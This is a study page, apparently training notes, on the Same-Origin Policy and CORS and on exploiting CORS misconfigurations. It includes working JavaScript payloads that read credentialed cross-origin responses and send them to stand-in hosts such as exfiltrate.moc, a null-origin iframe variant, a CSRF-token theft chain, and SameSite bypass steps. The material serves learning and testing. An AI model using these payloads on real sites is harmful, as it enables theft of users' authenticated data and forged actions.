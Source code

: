 ```yaml
---
description: Javascript | Exfiltrate | SOP | CORS | Bypass | Tokens
---
```


# Same-Origin Policy & CORS

### <mark style="color:yellow;">Same-Origin Policy</mark>

SOP ensures that scripts running on one website (origin) cannot acces or manipulate resources on a different website (origin).

#### An origin is defined by 3 URL components:

* **Scheme**: Protocol used (http, https , ftp)
* **Host**: Domain name or IP (example.com)
* **Port**: Network port (80 or 443)

{% hint style="info" %}
Two URLs share the same origin **only** if all three components are identical.
{% endhint %}

#### Different Schemes

`http://example.com` and `https://example.com` are **different origins** because of the scheme.

#### Different Hosts

`https://academy.zencorp.com` and `https://zencorp.com` are **different origins** because of the host.

#### Different Ports

`https://zencorp.com` and `https://zencorp.com:8080` are **different origins** because of the port.

### <mark style="color:yellow;">Why is SOP Important?</mark>

In summary, the **Same-Origin Policy** is a foundational security feature that isolates websites from one another. Without SOP, a malicious website could access senstive data for example:

{% hint style="info" %}
**Access Sensitive Data**

If you are logged into `bank.com`, a malicious site (`evil.com`) could run JavaScript to steal your bank account details.

**Manipulate Resources**

`evil.com` could modify your data or trigger unwanted actions on another site you are logged into.
{% endhint %}

### <mark style="color:yellow;">Cross-Origin Resource Sharing (CORS)</mark>

**Cross-Origin Resource Sharing (CORS)** is a W3C standard that allows a web server to define exceptions to the Same-Origin Policy (SOP). It enables website to securely share resources across different origins by defining trusted origins and HTTP methods.

> Imagine a web application hosted at `http://vulnerablesite.htb` fetching data from an API at `http://api.vulnerablesite.htb`. SOP blocks these requests however using CORS it allows the API to permit requests from `http://vulnerablesite.htb`, giving access to the data.

### <mark style="color:yellow;">How does CORS work?</mark>

{% stepper %}
{% step %}
**Access-Control-Allow-Origin**

Specifies which origins can access the resource.
{% endstep %}

{% step %}
**Access-Control-Allow-Methods**

Lists allowed HTTP methods (e.g., GET, POST).
{% endstep %}

{% step %}
**Access-Control-Allow-Headers**

Lists permitted HTTP headers.
{% endstep %}

{% step %}
**Access-Control-Allow-Credentials**

Allows requests with credentials (cookies, tokens).
{% endstep %}

{% step %}
**Access-Control-Max-Age**

Defines how long CORS info is cached.
{% endstep %}
{% endstepper %}

### <mark style="color:yellow;">PreFlight Requests</mark>

For non-simple requests like using custom headers like application/json a OPTIONS request is first send checking if the server allows it. This request contains:

* **Access-Control-Request-Method**: HTTP method of the actual request.
* **Access-Control-Request-Headers**: Custom headers in the actual request.

If the server responds with the right CORS headers the browsers proceeds with the request.

{% hint style="info" %}
A front-end sends a POST request with `application/json`. The API must:

* Allow `http://vulnerablesite.htb` in `Access-Control-Allow-Origin`.
* Permit `POST` in `Access-Control-Allow-Methods`.
* Accept `Content-Type: application/json` in `Access-Control-Allow-Headers`.
{% endhint %}

### <mark style="color:yellow;">CORS Misconfigurations</mark>

Misconfigured CORS often exploits the `Access-Control-Allow-Credentials: true` header to perform authenticated requests in the victim’s context. If an attacker-controlled domain gains SOP exceptions:

### <mark style="color:yellow;">Arbitrary Origin Reflection</mark>

The `Access-Control-Allow-Origin` header specifies which origins bypass SOP. A wildcard (`*`) allows all origins but cannot be combined with `Access-Control-Allow-Credentials: true`. To allow multiple origins, some applications reflect the `Origin` header value in `Access-Control-Allow-Origin`, potentially allowing any origin.

<details>

<summary>example_script.js</summary>

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://api.vulnerablesite.moc/data', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://exfiltrate.moc/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```

</details>

### <mark style="color:yellow;">**Improper Origin Whitelist**</mark>

Applications might validate origins using prefix or suffix matching, e.g., allowing origins ending with `vulnerablesite.htb`. This can lead to vulnerabilities if the check is too broad, permitting attacker-controlled subdomains like `attackervulnerablesite.htb`.

### <mark style="color:yellow;">Trusted</mark> <mark style="color:yellow;">`null`</mark> <mark style="color:yellow;">Origin</mark>

The `Access-Control-Allow-Origin` header can trust the `null` origin, often due to misinterpretation. A `null` origin can be forced using a sandboxed iframe.

<details>

<summary>sandbox.js</summary>

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://api.vulnerablesite.moc/data', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://exfiltrate.moc/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>"></iframe>
```

</details>

### <mark style="color:yellow;">Exploitation of Internal Applications</mark>

Misconfigured internal applications trusting all origins (`*`) are vulnerable if accessed from an internal network. Attackers can craft payloads to exfiltrate internal data.

<details>

<summary>example.js</summary>

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://172.16.0.2/data', true);
    xhr.onload = () => {
      location = 'http://exfiltrate.moc/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```

</details>

### <mark style="color:yellow;">**Efficient Exfiltration**</mark>

To handle large responses using Javascript its possible to parse elements and use a POST request instead of GET for exfiltration. Also splitting large data into smaller requests.

<details>

<summary>exfiltration.js</summary>

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://vulnerablesite.htb/profile.php', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      // parse the response
	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');

	  // exfiltrate only the interesting element
	  var msg = encodeURIComponent(doc.getElementById('private-message').innerHTML);
      location = 'https://exfiltrate.htb/log?data=' + btoa(msg);
    };
    xhr.send();
</script>
```

</details>

### <mark style="color:yellow;">Bypassing CSRF Tokens via CORS Misconfigurations</mark>

CORS misconfigurations can bypass CSRF defenses by exploiting improperly configured access controls. If `Access-Control-Allow-Credentials` is enabled, allowing session cookies with cross-origin requests, the Same-Origin policy can be bypassed.

Misconfigured CORS allows attackers to read cross-origin responses and so retrieve a valid CSRF token from an endpoint.

#### Prerequisites:

* SameSite = none must be set on the session cookie to enable cross-origin requests with credentials.
* Secure attribute must be used, so cookies are sent only over https.

<details>

<summary>get_csrft_token.js</summary>

```javascript
<script>
	// GET CSRF token
	var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://vulnerablesite.htb/profile.php', false);
    xhr.withCredentials = true;
    xhr.send();
    var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
	var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);

	// do CSRF
    var csrf_req = new XMLHttpRequest();
    var params = `promote=htb-stdnt&csrf=${csrftoken}`;
    csrf_req.open('POST', 'https://vulnerablesite.htb/profile.php', false);
	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params);
</script>
```

</details>

### <mark style="color:yellow;">Combining Attack Vectors to Bypass SameSite Cookies</mark>

SameSite Cookies: Browsers decide if cookies should be sent based on the site ignoring port and subdomain differences.

* **SameSite**: `http://vulnerable.htb` and `http://sub.vulnerable.htb`
* **NOT SameSite**: `http://vulnerable.htb` and `https://vulnerable.htb`

To bypass this behavior:

* Check if a session cookie has `SameSite=La`x its sent with safe requests like `GET`.
* If an app uses `GET` for state-chaning actions, SameSite protection is bypassed.
* For `Strict` SameSite, combining a misconfigured endpoint with a client-side redirect can bypass the restriction.

{% hint style="info" %}
**How does it work?**

1. Client-side redirect occurs when target site redirects via HTML or JS instead of a server response.
2. This redirect is treated as SameSite, victim's cookies are sent even if `SameSite=Strict`.
{% endhint %}
